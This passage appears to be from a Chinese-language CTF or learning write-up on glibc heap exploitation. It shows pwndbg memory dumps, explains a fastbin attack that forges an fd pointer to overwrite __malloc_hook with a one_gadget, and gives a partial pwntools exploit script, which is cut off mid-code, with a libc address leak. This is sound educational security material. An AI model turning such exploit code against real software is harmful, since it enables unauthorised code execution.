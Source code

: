 ```
pwndbg> x/20xg 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0xfff7a9283000007f	0x000000000000007f
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>这里不是有一个0x7F吗（滑稽）？也就是说我们把fd伪造为0x7ffff7dd1aed就可以绕过idx检查了，然后往下随意写19个字节，再把one_gadget的8字节写上去就刚好覆盖\_\_malloc_hook了。思路有了，我就直接放demo的pwntools利用了：</font></br>

```python
from pwn import *

p=process('./demo')

context.log_level=1

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='Choice:'

def add(size,content=''):
    sla(menu,'1')
    sla('input your size:',str(size))
    sla('input your message:',content)

def delete(index):
    sla(menu,'2')
    sla('input the index: ',str(index))

def edit(index,content):
    sla(menu,'3')
    sla('input the index: ',str(index))
    sla('input your content:',content)

def show(index):
    sla(menu,'4')
    sla('input the index: ',str(index))

chunk_link=0x6020c0

#=========================
# leak libc_base

add(0x100)
add(0x100)
delete(0)
show(0)
rv('content:')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
success("libc base:"+hex(libc_base))
delete(1)

#===================================
# now exploit
add(0x68)      #2
add(0x68)      #3
add(0x68)      #4 avoid chunk count overflow to 0xFFFF....
```